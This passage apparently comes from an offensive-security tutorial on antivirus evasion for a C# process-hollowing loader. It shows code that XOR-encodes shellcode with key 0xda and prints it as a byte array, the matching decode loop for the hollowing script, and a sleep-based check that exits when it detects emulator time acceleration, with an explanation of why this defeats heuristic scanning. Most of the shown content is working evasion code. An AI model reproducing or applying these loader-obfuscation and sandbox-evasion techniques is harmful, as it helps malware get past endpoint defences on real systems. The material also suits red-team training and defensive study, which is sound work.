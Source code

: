 ```csharp
            {
                byte b = encoded[count];
                if ((count + 1) == totalCount)
                {
                    hex.AppendFormat("0x{0:x2}", b);
                }
                else
                {
                    hex.AppendFormat("0x{0:x2},", b);
                }
                if ((count + 1) % 15 == 0)
                {
                    hex.Append("\n");
                }
            }
            Console.WriteLine($"XOR payload (key: 0xda):");
            Console.WriteLine($"byte[] shellcode = new byte[{buf.Length}] {{{hex}}};");

        }
    }
}
```
Then, the decoding function need to be added to process hollowing script.

```csharp
// Decode the XOR payload
            for (int i = 0; i < shellcode.Length; i++)
            {
                shellcode[i] = (byte)((uint)shellcode[i] ^ 0xda);
            }

```

### 2.1  Bypassing behaviour analysis.

As previously discussed, two methods can be utilized to accomplish this. The time delay technique is going to be employed in order to evade behavior analysis.

```csharp
        // Time delay
        DateTime t1 = DateTime.Now;
        Sleep(10000);
        double deltaT = DateTime.Now.Subtract(t1).TotalSeconds;
        if (deltaT < 9.5)
        {
            return;
        }
```
Basically, we'll implement a delay function at the start of the main function to check whether our code is running within an emulator. In emulator environments, when an app encounters a pause or sleep instruction, the heuristic engine accelerates through the delay, bypassing unnecessary wait times to expedite the scanning process.
